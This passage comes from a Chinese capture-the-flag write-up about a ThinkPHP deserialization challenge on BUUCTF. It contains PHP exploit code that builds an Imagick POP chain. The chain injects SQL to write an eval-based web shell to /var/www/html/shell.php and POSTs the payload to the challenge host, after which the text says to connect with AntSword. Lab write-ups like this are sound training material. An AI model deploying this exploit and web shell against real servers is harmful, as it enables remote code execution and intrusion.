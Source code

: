```php
        public function __construct(){
            $this->db = new Mysql();
            $this->options['where'] = '';
            $this->pk = 'id';
            $this->data[$this->pk] = array(
                "table" => "mysql.user where 1=1;select '<?php eval(\$_POST[1]);?>' into outfile '/var/www/html/shell.php';#",
                "where" => "1=1"
            );
        }
    }
}
namespace {
    echo base64_encode(serialize(new Think\Image\Driver\Imagick()));


    $curl = curl_init();
    curl_setopt_array($curl, array(
        CURLOPT_URL => "http://60255871-6897-49ef-9d6c-884e6aa201d0.node4.buuoj.cn:81/index.php/Home/Index/test",
        CURLOPT_RETURNTRANSFER => true,
        CURLOPT_ENCODING => "",
        CURLOPT_MAXREDIRS => 10,
        CURLOPT_TIMEOUT => 30,
        CURLOPT_HTTP_VERSION => CURL_HTTP_VERSION_1_1,
        CURLOPT_CUSTOMREQUEST => "POST",
        CURLOPT_POSTFIELDS => base64_encode(serialize(new Think\Image\Driver\Imagick())),
        CURLOPT_HTTPHEADER => array(
            "Postman-Token: 348e180e-5893-4ab4-b1d4-f570d69f228e",
            "cache-control: no-cache"
        ),
    ));
    $response = curl_exec($curl);
    $err = curl_error($curl);
    curl_close($curl);
    if ($err) {
        echo "cURL Error #:" . $err;
    } else {
        echo $response;
    }
}

```

我们将得到的值进行上传，访问/shell用蚁剑进行连接

![image-20241128200358295](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411282003336.png)

我们查看根目录，发现flag是插入数据库的

flag.sh
